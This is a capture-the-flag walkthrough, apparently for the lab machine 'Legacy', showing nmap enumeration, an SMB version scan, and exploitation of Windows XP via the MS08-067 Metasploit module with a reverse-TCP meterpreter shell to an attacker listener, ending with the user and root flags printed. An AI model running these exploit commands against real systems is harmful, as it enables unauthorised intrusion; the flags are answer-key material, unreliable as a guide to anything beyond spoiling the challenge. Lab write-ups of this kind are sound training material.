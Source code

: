 # Legacy

## 1. Overview

### 1.1. Attacks

* SMB

### 1.2. Tools used

**Enumeration** &rarr; `nmap`.

## 2. Walkthrough

### 2.1. Enumeration

#### 2.1.1. nmap
Search with `nmap`:

```bash
nmap -p -T4 -A 10.10.10.4
```

##### 2.1.1.1. Ports
![Legacy nmap ports](_v_images/20201003194612787_27957.png)

* **Port: 139 (netbios-ssn)** &rarr; Linux Samba
* **Port: 445 (microsoft-ds)** &rarr; Windows SMB

Both are SMB related (file shares).

##### 2.1.1.2. Host Details

![Legacy Host Details](_v_images/20201003195550666_18455.png)
![Legacy Host Script Results](_v_images/20201003195833909_14253.png)

* **OS** &rarr; Windows XP
* **Computer name** &rarr; LEGACY
* **SMB-Security-Mode**
    * **Message_Signing** &rarr; disabled


#### 2.1.2. Metasploit

```msf
msf5 > use auxiliary/scanner/smb/smb_version
msf5 auxiliary(scanner/smb/smb_version) > set rhosts 10.10.10.4
rhosts => 10.10.10.4
msf5 auxiliary(scanner/smb/smb_version) > run

[+] 10.10.10.4:445        - Host is running Windows XP SP3 (language:English) (name:LEGACY) (workgroup:HTB ) (signatures:optional)
[*] 10.10.10.4:445        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

* **OS** &rarr; Windows XP SP3

### 2.2. Exploitation

#### 2.2.1. Sources

**Google:** `smb windows xp sp3 exploit`

[[Rapid7] MS08-067 Microsoft Server Service Relative Path Stack Corruption ](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi)

#### 2.2.2. Metasploit

```msf
msf5 > use exploit/windows/smb/ms08_067_netapi
[*] Using configured payload windows/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms08_067_netapi) > set rhosts 10.10.10.4
rhosts => 10.10.10.4
msf5 exploit(windows/smb/ms08_067_netapi) > set LHOST 10.10.14.7
LHOST => 10.10.14.7
msf5 exploit(windows/smb/ms08_067_netapi) > run
```

```sh
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell

C:\WINDOWS\system32>cd "c:\documents and settings\john\desktop"
cd "c:\documents and settings\john\desktop"

C:\Documents and Settings\john\Desktop>type user.txt
type user.txt
e69af0e4f443de7e36876fda4ec7644f
C:\Documents and Settings\john\Desktop>cd "c:\documents and settings\administrator\desktop"

C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
993442d258b0e0ec917cae9e695d5713
```

* **Own User** &rarr; `e69af0e4f443de7e36876fda4ec7644f`
* **Own Root** &rarr; `993442d258b0e0ec917cae9e695d5713`